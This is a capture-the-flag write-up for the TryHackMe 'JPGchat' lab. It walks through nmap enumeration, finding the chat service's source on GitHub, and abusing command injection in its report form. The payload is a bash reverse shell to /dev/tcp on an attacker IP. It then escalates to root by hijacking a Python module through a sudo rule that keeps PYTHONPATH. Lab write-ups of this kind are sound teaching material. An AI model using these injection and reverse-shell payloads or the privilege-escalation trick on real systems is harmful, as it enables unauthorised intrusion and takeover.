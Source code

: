 # JPGchat

At: [TryHackme](https://tryhackme.com/room/jpgchat) By: [R4v3n](https://tryhackme.com/p/R4v3n)

## Enum

Time to start with an `nmap -sC -sV -vv -oN nmap.txt $IP` scan:
```
Nmap scan report for 10.10.61.192
Host is up, received reset ttl 63 (0.047s latency).
Scanned at 2021-02-28 16:19:04 EST for 9s
Not shown: 998 closed ports
Reason: 998 resets
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fe:cc:3e:20:3f:a2:f8:09:6f:2c:a3:af:fa:32:9c:94 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDXqRxJhw/1rrvXuEkXF+agfTYMZrCisS01Z9EWAv8j6Cxjd00jBeaTGD/OsyuWUGwIqC0duALIIccwQfG2DjyrJCIPYyXyRiTbTSbqe07wX6qnnxV4xBmKdu8SxVlPKqVN36gQtbHWQqk9M45sej0M3Qz2q5ucrQVgWsjxYflYI1GZg7DSuWbI9/GNJPugt96uxupK0pJiJXNG26sM+w0BdF/DHlWFxG0Z+2CMqSlNt4EA2hlgBWKzGxvKbznJsapdtrAvKxBF6WOfz/FdLMQa7f28UOSs2NnUDrpz8Xhdqz2fj8RiV+gnywm8rkIzT8FOcMTGfsvOHoR8lVFvp5mj
|   256 e8:18:0c:ad:d0:63:5f:9d:bd:b7:84:b8:ab:7e:d1:97 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBD2CCqg8ac3eDsePDO27TM9OweWbaqytzrMyj+RbwDCHaAmfvhbA0CqTGdTIBAsVG6ect+OlqwgOvmTewS9ihB8=
|   256 82:1d:6b:ab:2d:04:d5:0b:7a:9b:ee:f4:64:b5:7f:64 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIXcEOgRyLk02uwr8mYrmAmFsUGPSUw1MHEDeH5qmcxv
3000/tcp open  ppp?    syn-ack ttl 63
| fingerprint-strings: 
|   GenericLines, NULL: 
|     Welcome to JPChat
|     source code of this service can be found at our admin's github
|     MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel
|_    REPORT USAGE: use [REPORT] to report someone to the admins (with proof)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3000-TCP:V=7.91%I=7%D=2/28%Time=603C08CF%P=x86_64-pc-linux-gnu%r(NU
SF:LL,E2,"Welcome\x20to\x20JPChat\nthe\x20source\x20code\x20of\x20this\x20
SF:service\x20can\x20be\x20found\x20at\x20our\x20admin's\x20github\nMESSAG
SF:E\x20USAGE:\x20use\x20\[MESSAGE\]\x20to\x20message\x20the\x20\(currentl
SF:y\)\x20only\x20channel\nREPORT\x20USAGE:\x20use\x20\[REPORT\]\x20to\x20
SF:report\x20someone\x20to\x20the\x20admins\x20\(with\x20proof\)\n")%r(Gen
SF:ericLines,E2,"Welcome\x20to\x20JPChat\nthe\x20source\x20code\x20of\x20t
SF:his\x20service\x20can\x20be\x20found\x20at\x20our\x20admin's\x20github\
SF:nMESSAGE\x20USAGE:\x20use\x20\[MESSAGE\]\x20to\x20message\x20the\x20\(c
SF:urrently\)\x20only\x20channel\nREPORT\x20USAGE:\x20use\x20\[REPORT\]\x2
SF:0to\x20report\x20someone\x20to\x20the\x20admins\x20\(with\x20proof\)\n"
SF:);
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Cool, we have ssh and supposedly a custom service? Lets try connect via netcat and run a second nmap in the background (on all ports).
</br>So here we connect to the chatting service:
```bash
$ nc $IP 3000
Welcome to JPChat
the source code of this service can be found at our admin's github
MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel
REPORT USAGE: use [REPORT] to report someone to the admins (with proof)
```

## OSINT

So we are supposed to look for the admin's github. Quickly jumping on GitHub and searching for `JPGchat` does the trick. [Here](https://github.com/Mozzie-jpg/JPChat).
```py
#!/usr/bin/env python3

import os

print ('Welcome to JPChat')
print ('the source code of this service can be found at our admin\'s github')

def report_form():

	print ('this report will be read by Mozzie-jpg')
	your_name = input('your name:\n')
	report_text = input('your report:\n')
	os.system("bash -c 'echo %s > /opt/jpchat/logs/report.txt'" % your_name)
	os.system("bash -c 'echo %s >> /opt/jpchat/logs/report.txt'" % report_text)

def chatting_service():

	print ('MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel')
	print ('REPORT USAGE: use [REPORT] to report someone to the admins (with proof)')
	message = input('')

	if message == '[REPORT]':
		report_form()
	if message == '[MESSAGE]':
		print ('There are currently 0 other users logged in')
		while True:
			message2 = input('[MESSAGE]: ')
			if message2 == '[REPORT]':
				report_form()

chatting_service()
```
Nice, as we can see the chat awaits either a `[MESSAGE]` or a `[REPORT]` and when using `[REPORT]` it puts our input into a `bash -c ''` context. This could be abused.
```bash
$ nc $IP 3000 
Welcome to JPChat
the source code of this service can be found at our admin's github
MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel
REPORT USAGE: use [REPORT] to report someone to the admins (with proof)
[REPORT]
this report will be read by Mozzie-jpg 								<-- Oh, this was a good hint :P 
your name:
```

## Foothold

So the exploit is as follows:
```
your name:
hi;bash -i >& /dev/tcp/10.8.147.71/8888 0>&1;
your report:
something
hi
```
By writing `hi;` we echo hi and end that command, then still in the context of `bash -c ''` we execute `bash -i >& /dev/tcp/YOUR_IP/8888 0>&1;` the last `;` is to ensure that the `>>` appending operation doesnt mess up our reverse shell. Listen with `nc -lvnp 8888` and get your rev shell!</br>

### Stabilize shell

```bash
python3 -c "import pt;pty.spawn('/bin/bash')"
export TERM=xterm
//CTRL + Z to background
stty raw -echo;fg             <-- after you finish type 'reset' to get your home terminal back
```
## Privesc

So who are we and what can we do?
```bash
wes@ubuntu-xenial:/$ id
uid=1001(wes) gid=1001(wes) groups=1001(wes)
wes@ubuntu-xenial:/$ sudo -l
Matching Defaults entries for wes on ubuntu-xenial:
    mail_badpass, env_keep+=PYTHONPATH

User wes may run the following commands on ubuntu-xenial:
    (root) SETENV: NOPASSWD: /usr/bin/python3 /opt/development/test_module.py
```
Very nice, I see someone has a love for python!
```bash
wes@ubuntu-xenial:~$ cd /opt/development/
wes@ubuntu-xenial:/opt/development$ ls -l
total 4
-rw-r--r-- 1 root root 93 Jan 15 18:58 test_module.py
```
So we only have read, access. Time to check out the source.
```python
#!/usr/bin/env python3

from compare import *

print(compare.Str('hello', 'hello', 'hello'))
```
So import everything from compare and then run `compare.Str`? Aight, sadly we dont have write access in `/opt/development` oterhwise this would have been a module injcetion.
```bash
wes@ubuntu-xenial:/opt/development$ find / -type f 2>/dev/null | grep compare.py
/usr/lib/python3.5/compare.py
/usr/lib/python2.7/dist-packages/lxml/doctestcompare.pyc
/usr/lib/python2.7/dist-packages/lxml/doctestcompare.py
```	
But wait: `env_keep+=PYTHONPATH` maybe we can exploit this? We can! Consult [this](https://medium.com/analytics-vidhya/python-library-hijacking-on-linux-with-examples-a31e6a9860c8) article as I did!</br>
So I moved to `/dev/shm/` as that has lmost guaranteed write access and created the following `compare.py` script:
```python
class compare:

	def Str(self, x, y,):
		import os
		x = str(x)
		y = str(y)

		if x == y:
			os.system('/bin/bash -p')
			return True;
		else:
			return False;

	def Int(self, x, y,):
		x = int(x)
		y = int(y)

		if x == y:
			return True;
		else:
			return True;

	def Float(self, x, y,):
		x = float(x)
		y = float(y)

		if x == y:
			return True;
		else:
			return False;
```
Now run this command: `sudo PYTHONPATH=/dev/shm/ /usr/bin/python3 /opt/development/test_module.py`. Voila, root
```
FLAG REDACTED

Also huge shoutout to Westar for the OSINT idea
i wouldn't have used it if it wasnt for him.
and also thank you to Wes and Optional for all the help while developing

You can find some of their work here:
https://github.com/WesVleuten
https://github.com/optionalCTF
```
